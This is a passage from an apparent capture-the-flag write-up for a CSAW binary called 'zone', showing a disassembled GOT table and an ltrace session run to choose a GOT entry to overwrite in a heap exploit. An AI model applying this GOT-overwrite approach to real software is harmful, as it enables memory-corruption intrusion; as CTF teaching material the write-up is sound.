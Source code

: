 ```
0000000000607038         dq         0x0000000000608030                          ; DATA XREF=j_setvbuf
                     __cxa_rethrow@GOT:
0000000000607040         dq         0x0000000000608038                          ; DATA XREF=j___cxa_rethrow
                     read@GOT:
0000000000607048         dq         0x0000000000608040                          ; DATA XREF=j_read
                     __libc_start_main@GOT:
0000000000607050         dq         0x0000000000608048                          ; DATA XREF=j___libc_start_main
                     scanf@GOT:
0000000000607058         dq         0x0000000000608058                          ; DATA XREF=j_scanf
                     memmove@GOT:
0000000000607060         dq         0x0000000000608068                          ; DATA XREF=j_memmove
                     __stack_chk_fail@GOT:
0000000000607068         dq         0x0000000000608070                          ; DATA XREF=j___stack_chk_fail
                     munmap@GOT:
0000000000607070         dq         0x0000000000608078                          ; DATA XREF=j_munmap
                     __cxa_end_catch@GOT:
0000000000607078         dq         0x0000000000608080                          ; DATA XREF=j___cxa_end_catch
                     _ZSt17__throw_bad_allocv@GOT:        // std::__throw_bad_alloc()
0000000000607080         dq         0x0000000000608088                          ; DATA XREF=j__ZSt17__throw_bad_allocv
                     __cxa_begin_catch@GOT:
0000000000607088         dq         0x0000000000608090                          ; DATA XREF=j___cxa_begin_catch
                     __gxx_personality_v0@GOT:
0000000000607090         dq         0x00000000006080b0                          ; DATA XREF=sub_400a80
                     _Znwm@GOT:        // operator new(unsigned long)
0000000000607098         dq         0x0000000000608098                          ; DATA XREF=j__Znwm
                     _Unwind_Resume@GOT:
00000000006070a0         dq         0x00000000006080a0                          ; DATA XREF=j__Unwind_Resume
                     mmap@GOT:
00000000006070a8         dq         0x00000000006080a8                          ; DATA XREF=j_mmap
```
To try to figure out a good candidate to overwrite, we invoke the binary with "ltrace" so we can see all its library calls
```
root@hackbox:/home/anichno/csaw/zone# ltrace ./zone 2> ltrace.out
Environment setup: 0x7fffffffe3e0
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
1
64
1) Allocate block
2) Delete block
3) Write to last block
4) Print last block
5) Exit
3
ABCD
1) Allocate block
2) Delete block
3) Write to last block
```